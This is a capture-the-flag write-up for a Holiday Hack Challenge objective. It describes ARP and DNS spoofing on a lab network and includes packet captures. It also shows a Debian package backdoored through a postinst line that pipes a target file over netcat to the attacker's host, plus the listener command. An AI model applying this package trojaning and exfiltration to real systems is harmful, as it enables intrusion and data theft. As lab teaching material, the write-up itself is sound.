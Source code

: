 # Objective 9: ARP Shenanigans

The objective is to get hold of the file /NORTH_POLE_Land_Use_Board_Meeting_Minutes.txt on a remote host using ARP  and DNS spoofing.

Exercise setup:
||Local Host|Remote Host  |Spoofed Host|
|--|--|--|--|
|MAC|02:42:0a:06:00:02  | 4c:24:57ab:ed:84 ||
|IP| 10.6.0.2 | 10.6.6.35 |10.6.6.53|

A [Python Scapy script](https://github.com/joergschwarzwaelder/hhc2020/blob/master/Objective-9/arp_resp-py) was prepared to spoof ARP replies for the spoofed host redirecting the traffic to the local host.

Capture of ARP spoofing success with following DNS query:

    15:57:16.006467 ARP, Request who-has 10.6.6.53 tell 10.6.6.35, length 28
    15:57:47.028750 ARP, Reply 10.6.6.53 is-at 02:42:0a:06:00:02, length 28
    15:57:47.057274 IP 10.6.6.35.27609 > 10.6.6.53.53: 0+ A? ftp.osuosl.org. (32)`

Next a [Python Scapy script](https://github.com/joergschwarzwaelder/hhc2020/blob/master/Objective-9/dns_resp.py) was prepared to capture DNS requests to the spoofed host and to send replies redirecting traffic to ftp.osuosl.org to the local host.

Capture of ARP and DNS spoofing with following HTTP request:

    17:27:16.968588 ARP, Request who-has 10.6.6.53 tell 10.6.6.35, length 28
    17:27:16.992764 ARP, Reply 10.6.6.53 is-at 02:42:0a:06:00:02, length 28
    17:27:17.009009 IP 10.6.6.35.16498 > 10.6.6.53.53: 0+ A? ftp.osuosl.org. (32)
    17:27:17.029673 IP 10.6.6.53.53 > 10.6.6.35.16498: 0*- 1/0/0 A 10.6.0.2 (62)
    17:27:18.098422 IP 10.6.6.35.50340 > 10.6.0.2.80: Flags [S], seq 2451495177, win 64240, options [mss 1460,sackOK,TS val 2516141758 ecr 0,nop,wscale 7], length 0
    17:27:18.098452 IP 10.6.0.2.80 > 10.6.6.35.50340: Flags [R.], seq 0, ack 2451495178, win 0, length 0

A Node.js HTTP server was started and it logged the request:

    10.6.6.35 - - [12/Dec/2020 17:37:02] "GET /pub/jfrost/backdoor/suriv_amd64.deb HTTP/1.1" 404 -

On the device the Debian package netcat-traditional_1.10-41.1ubuntu1_amd64.deb was found.
This package was modified to include this line in the postinst script:

    /bin/nc 10.6.0.2 4444 < /NORTH_POLE_Land_Use_Board_Meeting_Minutes.txt

and then made available in the web tree folder as pub/jfrost/backdoor/suriv_amd64.deb.
That way the remote device would download this package and install it. In course of the installation, the file in scope would be sent to port 4444 of the local host, which has to run the command

    nc -lvp 4444 > text
to receive the [text](https://github.com/joergschwarzwaelder/hhc2020/blob/master/Objective-9/NORTH_POLE_Land_Use_Board_Meeting_Minutes.txt).
In this file can be found that **Tanta Kringle** recused herself from the vote.
<!--stackedit_data:
eyJoaXN0b3J5IjpbLTIxMTE5Mzg1MjUsLTE3OTg0MTU4OTYsLT
g3ODM5MjIxNiw1MTQyMDkxNTldfQ==
-->
